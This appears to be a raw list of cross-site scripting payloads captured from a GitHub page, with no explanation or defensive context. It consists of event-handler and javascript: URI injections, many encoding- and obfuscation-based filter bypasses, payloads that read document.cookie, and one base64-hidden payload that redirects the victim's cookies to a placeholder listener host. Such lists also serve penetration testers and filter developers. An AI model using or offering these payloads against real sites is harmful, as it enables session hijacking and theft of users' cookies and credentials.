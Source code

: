 <body onactivate=alert(1)>
<body onfocusin=alert(1)>
<div style="background-image:url(javascript:alert('Successful XSS'))">
<input type="image" src="javascript:alert('Successful XSS')">
%26%23x2f%3B%26%23x2f%3Br4y.pw
<a/href=&#74;ava%0a%0d%09script&colon;alert()>click
<d3v/onauxclick=(((confirm)))``>click
"/><iMg SrC="x" oNeRRor="alert(document.cookie);">
svg/onload=alert(document.cookie)abcdef@test.com
<img src="non-existent-image.jpg" onerror="alert(document.cookie);" />
[alert][0].call(this,1)
&lt;script&gt;alert(1)&lt;/script&gt;
%26lt%3Bscript%26gt%3Balert%281%29%26lt%3B%2Fscript%26gt%3B
&amp;lt;script&amp;gt;alert(1)&amp;lt;/script&amp;gt;
%26amp%3Blt%3Bscript%26amp%3Bgt%3Balert%281%29%26amp%3Blt%3B%2Fscript%26amp%3Bgt%3B
<d3v/onmouseleave=[2].some(confirm)>click
<details/open/ontoggle=alert()>
<details/open/ontoggle=(confirm)()//
";[][“\146\151\154\164\145\162”][“\143\157\156\163\164\162\165\143\164\157\162”](“\145\166\141\154\50\141\164\157\142\50\42\131\127\170\154\143\156\121\157\115\123\153\75\42\51\51”)();var+test="
”al”;b=”ert”;self[a+b]();
a=”Fun”;b=”ction”;c=”ev”;d=”al(a”;e=”tob”;f=”(‘YWxlcnQoMSk=’))”;self[a+b](c+d+e+f)();
"><svg%20onload=alert%26%230000000040"1")>
<img/src=x onError="`${x}`;alert(`XSS`);">
-top['al\x65rt']('xss')-
<svg/on%20onload=alert(1)>
eval(function(p,a,c,k,e,d){e=function(c){return c};if(!''.replace(/^/,String)){while(c--){d[c]=k[c]||c}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('0:2(1)',3,3,'javascript||alert'.split('|'),0,{}))
_0x68087f:alert(0x1);
/?xss=500); alert(document.cookie);//
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
"><iframe src="javascript:alert(XSS)">
<object data="javascript:alert(XSS)">
<isindex type=image src=1 onerror=alert(XSS)>
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="width: expression(alert('XSS'));">
<BASE HREF="javascript:alert('XSS');//">
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
<?php echo('<SCR'); echo('IPT>alert("XSS")</SCRIPT>'); ?>
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
"><img src=1 onmouseleave=print()>
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>